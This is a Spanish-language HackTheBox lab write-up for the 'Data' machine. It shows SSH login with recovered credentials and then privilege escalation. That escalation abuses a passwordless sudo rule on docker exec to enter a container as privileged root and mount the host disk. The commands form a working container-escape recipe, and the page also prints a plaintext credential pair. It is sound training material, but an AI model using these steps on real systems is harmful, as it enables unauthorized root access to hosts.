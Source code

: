 Ahora con las credenciales que teneamos antes *boris:beautiful1* vamos a conectarnos con [[ssh]] usando `ssh boris@data.vl -p 22` 

![[Data26.png]]
Ya estamos adentro de la maquina

---
# [[Tratamiento de la TTY]]

----
# Escalada de privilegios con [[Abuso de Sudo]] [[Binario docker]]

```shell
sudo -l
```


![[Data27.png]]
Nos indica que podemos ejecutar como root sin proporcionar contraseña el binario `/snap/bin/docker exec *`


Si uso  [[ps faux y ps -eo]] con el comando `ps -faux | grep docker` vemos que esta corriendo el docker e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81

![[Data28.png]]

Asi que nos vamos a meter al contenedor como si fueramos el usuario root con `sudo docker exec -it --privileged --user root e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 bash`


![[Data29.png]]
Si usamos [[mount]] vemos que la priemra partición del disco /dev/sda1 esta sirviendo como sistema de archivos real para ficheros dentro del contenedor
![[Data35.png]]

Asi que vamos a usar el comando ``mount /dev/sda1 /mnt/`` para montar todos los archivos de la maquina host del directorio /dev/sda1 a la carpeta /mnt del contenedor
Y listo ya podemos catear las flags

![[Data30.png]]

--------
# Notas

PPP (Protocolo Punto a Punto) es un protocolo de enlace de datos que crea conexiones directas y seguras entre dos puntos

-----------
# Creditos

Writeup Oficial HackTheBox
[Writeup de 0xdf](https://0xdf.gitlab.io/2025/07/01/htb-data.html#)


